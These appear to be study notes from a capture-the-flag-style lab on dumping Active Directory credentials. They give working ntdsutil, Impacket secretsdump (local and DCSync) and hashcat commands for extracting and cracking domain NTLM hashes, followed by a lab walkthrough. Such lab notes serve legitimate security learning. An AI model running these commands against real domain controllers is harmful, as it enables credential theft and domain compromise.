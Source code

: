 
## NTDS Domain Controller
The **NTDS** database stores all Active Directory (AD) information, such as:

- **Objects** (users, computers, groups, etc.)
- **Attributes** (object properties)
- **Credentials** (hashed passwords, etc.)

---
 **Structure of NTDS.DIT**
 The data in the NTDS.DIT file is organized into three tables:

1. **Schema Table:** Defines types of objects (e.g., users, groups) and their relationships.
2. **Link Table:** Stores attributes of objects and their values.
3. **Data Table:** Contains actual data, such as user and group details.

---
 **File Location and Protection**

- **Default Location:** `C:\Windows\NTDS\NTDS.DIT`.
- **Protection:** The file is **encrypted** and actively used by Active Directory, meaning it’s **locked** and cannot be accessed directly while the system is running.

---
**Accessing the NTDS.DIT File**
To access and decrypt the NTDS.DIT file, follow these steps:

1. **Copying the NTDS.DIT File:**
You can use tools like:
- **`ntdsutil`:** A built-in utility to manage AD data.
- **`diskshadow`:** A tool to create shadow copies of locked files, like NTDS.DIT.

These tools allow you to make a **copy** of the file without directly accessing the locked database.

2. **Dumping the File's Content:**
After obtaining the file, you need to decrypt its contents to extract sensitive data, such as password hashes.

---
3. **Decrypting the NTDS.DIT File**
To decrypt the NTDS.DIT file, you also need the **System Boot Key** because:
- The Boot Key is required to decrypt **LSA Isolated Credentials** stored in the *NTDS.DIT* and is stored in the **SECURITY file** of the file system, which must also be dumped.

---


## Local Dumping (No Credentials)
This is usually done if you have no credentials available but have administrator access to the domain controller. Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, first, we assume we have administrator access to a domain controller. 

To successfully dump the content of the NTDS file we need the following files:
- *C:\Windows\NTDS\ntds.dit*
- *C:\Windows\System32\config\SYSTEM*
- *C:\Windows\System32\config\SECURITY*

The following is a one-liner PowerShell command to dump the NTDS file using the *Ntdsutil* tool in the `C:\temp` directory.

**Ntdsutil**
Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various scenarios such as 

- Restore deleted objects in Active Directory.
- Perform maintenance for the AD database.
- Active Directory snapshot management.
- Set Directory Services Restore Mode (DSRM) administrator passwords

Dumping the content of the NTDS file from the Victim Machine
```shell-session
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the AttackBox and run the *secretsdump.py* script to extract the hashes from the dumped memory file.

Extract hashes from NTDS Locally
```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security {path/to/SECURITY} -system {path/to/SYSTEM} -ntds {path/to/ntds.dit} local
```

## Remote Dumping (With Credentials)
In this case, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.

The *DC Sync* is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync.

The Persisting AD room uses the Mimikatz tool to perform the DC Synchronisation attack. Let's demonstrate the attack using a different tool, such as the Impacket SecretsDump script.

Performing theDCSync Attack
```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc {THM.red/AD_Admin_User}@{MACHINE_IP} > output.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
```

- the `-just-dc` argument is for extracting the NTDS data.
- the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

Note if we are interested to dump only the NTLM hashes, then we can use the `-just-dc-ntlm` argument as follows:

The DC Sync Attack to DumpNTLMHashes
```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm {THM.red/AD_Admin_User}@{MACHINE_IP} > output.txt
```

Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:

Cracking the Hashes
```shell-session
user@machine$ hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```


## Example
1. Apply the technique discussed in this task to dump the NTDS file **locally** and extract hashes. What is the target system bootkey value? **Note**: Use thm.red/thm as an Active Directory user since it has administrator privileges!

- Dumping the content of the NTDS file from the Victim Machine
```shell-session
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
- SCP all three dumped files (security/system/ntds) to our attacking machine
- Decrypt using impacket secretsdump.py

	Extract hashes from NTDS Locally
	```shell-session
	user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security {path/to/SECURITY} -system {path/to/SYSTEM} -ntds {path/to/ntds.dit} local
	```
	![](Pasted%20image%2020241125233401.png)

2. What is the clear-text password for the **bk-admin** username?
	![](Pasted%20image%2020241125235416.png)
Cracking the Hashes
```shell-session
root@m10.10.151.193$ hashcat -m 1000 -a 0 /bk-admin_hashes.txt /usr/share/wordlists/rockyou.txt

